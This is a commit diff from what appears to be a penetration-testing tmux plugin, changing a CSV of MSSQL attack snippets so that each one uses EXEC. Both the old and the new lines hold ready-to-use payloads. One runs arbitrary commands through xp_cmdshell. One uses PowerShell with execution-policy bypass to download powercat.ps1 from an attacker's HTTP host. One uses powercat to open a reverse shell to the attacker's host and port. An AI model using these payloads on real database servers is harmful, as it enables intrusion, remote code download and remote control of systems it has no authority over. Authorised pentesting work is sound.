

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv, drawn as a sheet.

Commit message:
Fixes
- Snipper: Changed clipboard handling by abusing a new temp window
- Snipper: Added EXEC to mssql snippets

```diff
--- a/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
+++ b/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
@@ -1,4 +1,4 @@
 name,description,snippet,variables
-MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,"xp_cmdshell '§§§command§§§';",§§§command§whoami§command that should be executed§§§
-MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),"xp_cmdshell 'powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§';",§§§file§powercat.ps1§filename to download from host§§§
-MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),"xp_cmdshell 'powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep';",
+MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
+MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
+MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```
Also changed, not shown: 3 other files.
